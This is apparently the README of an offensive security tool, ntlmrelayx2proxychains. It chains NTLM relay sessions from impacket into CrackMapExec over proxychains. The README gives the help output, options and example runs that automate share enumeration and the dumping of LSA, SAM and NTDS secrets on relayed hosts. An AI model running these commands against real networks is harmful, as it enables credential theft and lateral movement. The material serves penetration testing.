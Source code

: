 # ntlmrelayx2proxychains

## Introduction
[ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains) aims to connect the tool of the [SecureAuthCorps'](https://github.com/SecureAuthCorp) [impacket](https://github.com/SecureAuthCorp/impacket) suite, ntlmrelayx.py (hereafter referred to as "ntlmrelayx"), along with @[byt3bl33d3r](https://github.com/byt3bl33d3r)'s tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (hereafter referred to as "CME"), over [proxychains](https://github.com/haad/proxychains), developped by [haad](https://github.com/haad).

Currently, when having active relays via ntlmrelayx.py, you need to manually provide user, domain, and ip address in CME over proxychains. The idea behind this tool is to automate this process. 

So have you ever felt too lazy to **explore all shares, loggedin users, sessions, disks, and/or password policy** manually after using ntlmrelayx **or** felt too lazy to **dump the lsa, sam, and/or ntds** on all systems where you found a local administrator? If so, you'll for sure enjoy [ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains)! :) 

##  Help!

  This tools' help-page can be consulted via CLI using the `-h` or the `--help`parameter.

    $python3 ntlmrelay2proxychains.py --help
        Usage:
                $python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
        
        
        Required argument:
                -a, --action            possible actions {shares|lsa|sam|ntds|sessions|disks|loggedon-users|pass-pol|???}
        
        
        Optional arguments:
                -h, --help              shows this help message and exits
                -e, --exclude           exludes ips listed in the file checked_ips.txt
                -A, --adminonly         only executes the command if the user is local admin on the IP
        
        
        Credits:
                This tool was made by @BugZ_GENK
        
        
        Disclaimer:
                Use with care, on your own risk! (and other legal blabla indicating you are NOT using this tool on my responsibility/accountability :))

## Requirements
This tool requires you to have **proxychains configured, Python3 and CME installed, and ntlmrelayx running using socks mode**.

## Required argument
As can be read above, the `-a` or `--action` parameter is **required**. Using this parameter you specify what comes at the end of your command in CME. 

**Example:**
When using ntlmrelayx2proxychains in the following way 

    $ python3 ntlmrelayx2proxychains -a shares
    
   The following command is executed in the background:

    $ proxychains crackmapexec smb -u "victim" -p "" -d "contoso" 10.10.10.10 --shares

## Optional arguments
### Exclude IPs
Starting of with the explanation of the parameter `--exclude` (or the short version `-e`).

This parameter expects no further input via CLI, but checks the file `checked_ips.txt` (created on the first run of this tool). In this file you can specify IPs you want `ntlmrelayx2proxychains.py` to skip.

This can be useful when, ***e.g.*** , exploring shares. During your security assessment, you find a share where you have full read/write access. You fully crawl through this share, but can't find anything interesting. At this point, you are given the option to exclude this endpoint so it does not keep showing up over an over again, while you have already thoroughly investigated these shares. 

**Example:**
Example of `checked_ips.txt`:

    $cat checked_ips.txt
    10.10.10.10
    127.0.0.10
    192.168.0.10

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a shares -e
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: True
    -> Excluded IPs: 10.10.10.10, 127.0.0.10, 192.168.0.10
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
Note, `Actively excluding IPs:` is set to `True` and `--> Excluded IPs: [SNIP]` sums up all IPs that are excluded.

### Adminonly
The next built-in parameter ntlmrelayx2proxychains supports is the parameter `--adminonly` (or the short version `-A`).

This parameter expects no further input at all. It just checks the ntlmrelayx API where it found relays for users that are local administrator on that particular endpoint.

This can be useful when, ***e.g.*** , dumping LSA secrets from target systems, as this operation can only be performed by users have local admin rights.

**Example:**
The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a lsa -A
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]

## Example run

   

    $ python3 ntlmrelay2proxychains.py -a shares
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    
    [*] Grepping your current relays......
    [*] Beautifying the json file......
    
    [*] Setting domain......
    [OK] Domain is: DUM
    
    [*] Ready, set, GO!
    proxychains crackmapexec smb -u "SRV-0001$" -p "" -d CONTOSO 10.10.10.5 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]
    
    proxychains crackmapexec smb -u "VICTIM" -p "" -d CONTOSO 10.10.10.10 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]

